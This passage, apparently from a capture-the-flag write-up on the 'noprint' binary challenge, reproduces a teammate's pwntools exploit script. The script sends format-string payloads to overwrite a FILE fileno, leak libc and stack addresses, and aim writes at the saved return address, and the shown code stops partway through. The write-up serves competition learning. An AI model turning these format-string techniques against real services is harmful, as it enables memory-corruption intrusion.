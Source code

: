 
BUT, I have not run this explotation for the remote instance yet.

My teammate @Jalynk2004 has solved it with the other way ( Yes, he did get the flag ). By changing the fileno of FILE object, he could leak many addresses, `noprint` became `print` now!.

His script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep

context.binary = e = ELF("./noprint_patched")
l = ELF("./libc.so.6")
gs="""
"""
def start():
    if args.LOCAL:
        p=e.process()
        if args.GDB:
            gdb.attach(p,gdbscript=gs)
            pause()
    elif args.REMOTE: # python x.py REMOTE <host> <port>
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p

r = start()


r.recvuntil(b'void\n')
pl = f'%{0x3e84}c%9$hn'.encode()
r.sendline(pl)

pl = f'%*9$d%112c%13$n'.encode()

r.sendline(pl)
sleep(1.5)
pl = b'%c%21$hhn'
r.sendline(pl)


pl = b'%12$p%13$p\n\n'

sleep(0.5)

r.sendline(pl)

r.recvuntil(b'0x', timeout = 10)
l.address = int(r.recv(12), 16) - 0x2a3b8
log.info(f'Libc: {hex(l.address)}')
r.recvuntil(b'0x')
stack = int(r.recv(12), 16)
log.info(f'Stack: {hex(stack)}')

rip = stack - 0x88
r1 = rip & 0xffff
r2 = (rip >> 16) & 0xffff
r3 = (rip >> 32) & 0xffff

pl = f'%{0x3c84}c%9$hn'.encode()
r.sendline(pl + b'\0\n\n')
r.clean()
r.clean()

```